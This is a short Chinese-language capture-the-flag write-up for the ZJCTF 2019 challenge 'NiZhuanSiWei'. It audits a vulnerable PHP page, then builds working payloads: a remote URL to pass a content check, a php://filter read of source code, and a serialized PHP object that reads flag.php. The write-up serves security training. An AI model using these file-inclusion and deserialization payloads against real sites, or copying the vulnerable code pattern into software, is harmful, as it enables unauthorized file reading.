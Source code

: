 # [ZJCTF 2019]NiZhuanSiWei

1. 打开页面显示一段php代码

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```



2. 审计

- 接收三个Get参数text、file、password
- $text不能为空
- 获取$text文件的内容必须等于*welcome to the zjctf*
- $file不能存在**flag**关键词
- 包含$file文件（提示*useless.php*），反序列化$password的内容



3. 尝试构造payload

使用远程文件绕过text检测，使用`php://filter`过滤器读取useless.php源代码

```
/?text=http://truda.free.beeceptor.com&file=php://filter/read=convert.base64-encode/resource=useless.php&password=666
```

![image-20211011135709622](https://i.loli.net/2021/10/11/YT6UmuPf5tcxSXG.png)



解码得到：

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>
```



4. 构造反序列化

完整Payload

```php
/?text=http://truda.free.beeceptor.com&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

![image-20211011142204033](https://i.loli.net/2021/10/11/EMKIC83rtqBGjwV.png)



Get Flag!